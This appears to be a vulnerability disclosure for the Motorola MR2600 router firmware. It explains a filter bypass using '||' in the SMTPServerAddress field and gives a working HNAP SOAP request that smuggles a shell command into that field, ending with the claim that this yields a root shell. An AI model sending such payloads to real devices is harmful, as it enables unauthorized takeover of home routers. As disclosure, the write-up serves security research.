



# Motorala MR2600 MR2600-v1.0.14.img Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.motorola.com/
- Firmware download address ： https://www.motorolacable.com/support/MR2600/software/

## 1. Affected version


Figure 1 shows the latest firmware Ba of the router

## Vulnerability details



By SaveSysEmailParams/SMTPServerAddress parameters for content delivery to v8



Check_command_inject_ch function after the filter command injection, we can use '| |' symbol to bypass the interrupt the first command, you can execute the second command

Then use the nvram_SAFE_set function to set the value of SysLogMail_SMTPServerAddress to V8



In the rc file, the program uses the nvram_safe_get function to get the value of the SysLogMail_SMTPServerAddress parameter and passes it to V11. After that, the program uses the sprintf function to format the contents of V11 into V33. Command injection vulnerability exists when the content in V33 is executed through twsystem function

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware MR2600-v1.0.14.img
2. Attack with the following POC attacks

```
POST /HNAP1/ HTTP/1.1
Host: 81.70.52.167:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 3C5A4B9EECED160285AAE8D34D8CBA43 1649125990491
Content-Length: 632
Origin: http://81.70.52.167:7018
Connection: close
Referer: http://81.70.52.167:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=TFKV4ftJ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SysLogMail_SMTPServer xmlns="http://purenetworks.com/HNAP1/">
	<SMTPServerAddress> % || ls > /tmp/456 || echo 1</SMTPServerAddress>
</SysLogMail_SMTPServer>
</soap:Body>
</soap:Envelope>
```


Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

